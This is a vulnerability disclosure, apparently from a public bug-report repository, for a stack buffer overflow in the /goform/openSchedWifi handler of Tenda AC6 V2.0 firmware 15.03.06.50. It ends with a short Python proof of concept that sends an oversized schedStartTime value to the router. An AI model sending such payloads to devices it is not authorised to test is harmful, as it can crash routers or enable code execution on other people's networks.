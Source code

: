 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A critical stack-based buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/openSchedWifi` HTTP request handler and can be exploited by remote attackers to achieve code execution or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow exists in the HTTP request handler for the `/goform/openSchedWifi` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `schedStartTime`, `schedEndTime`.

![alt text](image-3.png)

![alt text](image.png)

## poc
![alt text](image-1.png)
![alt text](image-2.png)

## reproduce

```python
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'schedWifiEnable': '0', 'schedStartTime': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x40 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/openSchedWifi", payload)
```
